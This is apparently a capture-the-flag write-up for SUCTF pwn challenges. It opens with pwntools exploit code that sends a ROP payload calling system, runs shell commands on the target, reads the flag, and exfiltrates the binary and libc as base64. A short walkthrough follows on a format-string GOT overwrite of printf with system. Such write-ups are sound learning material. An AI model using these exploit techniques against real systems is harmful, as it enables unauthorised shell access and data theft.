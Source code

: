 ```python
pl += p64(system)
pl += p64(main)

if "\n" in pl:
    log.warning("newlines!!!\n" + hexdump(pl))

with context.local(log_level="debug"):
    vp.sendline(pl)
    vp.sendline("id;pwd;ls -al")

vp.recv()

vp.sendline("cat /home/rooney/suctf/Persian/persian | base64")

vp.sendline("cat /home/rooney/suctf/Persian/flag")

vp.interactive()

log.info("leaking libc for later uses...")

with context.local(log_level="debug"):
    vp.sendline("tar cz /lib/x86_64-linux-gnu/libc-2.19.so | base64; sleep 1; exit")

with open("./libc.so.tar.gz.leaked.b64", "ab") as f:
    i = 0
    x = vp.recv(8128, timeout=0.5)
    while x:
        i += len(x)
        log.info("received {} bytes".format(i))
        f.write(x)
        x = vp.recv(8128, timeout=0.5)

vp.close()
```


## Write-Up NoMoreBlind

This time we have a 32-bit binary and can input unlimited format strings. Other
than that it's again basically the same.

1. Leak the ELF via the format string bug.
  - my leaking code got better, so this worked pretty good now
  - `base_addr = 0x08048000`
  - Thre is no RELRO
  - Thre is no buffer overflow anymore
2. Leak the address of system
  - pwntools DynELF reliably identified the libc and gave us a libcdb download link :)
3. Overwrite `printf.got` with the address of `system`
  - The loop in `main` is then basically `fgets(&buf); system(buf);`
4. Enjoy the tasty shell :)
